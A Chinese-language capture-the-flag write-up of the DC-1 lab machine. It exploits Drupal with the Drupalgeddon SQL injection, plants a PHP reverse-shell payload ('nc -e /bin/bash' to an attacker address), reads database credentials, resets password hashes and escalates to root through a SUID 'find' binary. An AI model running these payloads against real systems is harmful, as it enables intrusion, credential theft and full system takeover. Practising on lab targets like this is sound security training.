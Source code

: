## DC-1渗透测试过程

### 端口扫描

```bash
nmap -sC -sV -Pn 192.168.56.119
```

```bash
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
```

开了三个端口

### 访问web页面

发现是`drupal`这个cms，用`droopescan`进行扫描

```bash
droopescan scan drupal -u http://192.168.56.119
```

```bash
[+] Possible version(s):
    7.22
    7.23
    7.24
    7.25
    7.26

[+] Possible interesting urls found:
    Default admin - http://192.168.56.119/user/login

[+] Scan finished (0:07:52.768780 elapsed)
```

扫到大概版本和登录页面

#### 漏洞发现和利用

寻找相关漏洞

```bash
searchsploit drupal 7
```

`Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)`

找到了这个`POC`，尝试是否可以利用

```bash
python2 34992.py -t http://192.168.56.119/ -u dabai -p 123456
```

然后就可以登录该账号，找到**flag3**

> Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
>
> 特殊的perms将有助于查找密码，但您需要执行该命令才能找到shadow中的内容

找到`Modules`，勾选**`PHP filter`**，并设置权限。，将`Use the PHPcode text format`设置为管理员

![image-20240418204912750](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240418204912750.png)

这样我们就可以在文章里写`PHP代码`

```php
<?php system("nc -e /bin/bash 192.168.56.101 1234");?>
```

找到**flag1**

```bash
www-data@DC-1:/var/www$ cat flag1.txt
Every good CMS needs a config file - and so do you.
```

#### 利用mysql重置密码

提示查看配置文件，位于Drupal安装目录下的/sites/default/文件夹中

```bash
www-data@DC-1:/var/www/sites/default$ cat settings.php
cat settings.php
<?php

/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

发现**flag2**

```
flag2
Brute force and dictionary attacks aren't the
only ways to gain access (and you WILL need access).
What can you do with these credentials?
爆破攻击和字典攻击不是
获得访问权限的唯一方法(您将需要访问权限)。
你能用这些证书做什么?
```

找到`Mysql`的账户，尝试登录

```bash
mysql -udbuser -pR0ck3t
```

然后在`drupaldb`数据库，`users`表下，查看了用户名和密码

```sql
select name,pass from users;
```

```
+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
| admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR |                                     
| Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |                                     
+-------+---------------------------------------------------------+
```

用john进行爆破哈希，发现那个用户都爆破不出来，那就尝试修改

`john admin --wordlist=/usr/share/wordlists/rockyou.txt`

`john Fred --wordlist=/usr/share/wordlists/rockyou.txt`

`drupal`常用密码加密是`MD5格式`，但是7.0以后因为安全性问题将加密方式改成了hash加密

[Drupal7密码重置](http://drupalchina.cn/node/1964)

```bash
www-data@DC-1:/var/www$ php ./scripts/password-hash.sh 123456
php ./scripts/password-hash.sh 123456

password: 123456                hash: $S$DmIUpIuKdJDVbkgk5BN6BFLX1ASLJB5H9LCYdzwjflmNjrOOE4zy
```

一定不要进`scripts`目录，然后修改`users`表

```
update users set pass='$S$DdjovdQivVxu7Nqjmxb1bbxZtzuiEBHDfqogPLcuSUMtB25gM/u/' where name='admin';
```

然后就可以登录了(这里和前面增加的账号是一样的效果，预期解应该是这样)

### 提权

那就回到靶机

查看`passwd`文件，有一个`flag4`用户

```bash
www-data@DC-1:/var/www$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
......
flag4:x:1001:1001:Flag4,,,:/home/flag4:/bin/bash
```

进入`flag4`的家目录，发现**flag4**

```bash
bash-4.2$ ls -l
ls -l
total 4
-rw-r--r-- 1 flag4 flag4 125 Feb 19  2019 flag4.txt
bash-4.2$ cat flag4.txt
cat flag4.txt
Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?
```

`shadow`文件还不能查看

`sudo`命令不能用，查看有suid权限的文件，一眼看到`find`

```bash
www-data@DC-1:/var/www$ find / -type f -perm -4000 2>/dev/null
find / -type f -perm -4000 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

find提权

```bash
www-data@DC-1:/var/www$ find / -exec "/bin/sh" \;
find / -exec "/bin/sh" \;
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```

直接就拿到了root权限，拿到最终flag

```bash
# cd /root
cd /root
# ls
ls
thefinalflag.txt
# cat t*
cat t*
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

### 总结

> 1.我并没有按MSF的方法进行漏洞利用，而是先打web漏洞得到后台账号，然后利用`PHP filter`模块执行`PHP代码`，反弹shell,提权
>
> 2.认识一款`droopescan`扫描器，可以扫`drupal这个cms`
>
> 3.`drupal`数据库中密码的加密方式是利用`/scripts/password-hash.sh`这个文件
>
> 4.`find`提权`find / -exec "/bin/sh" \;`

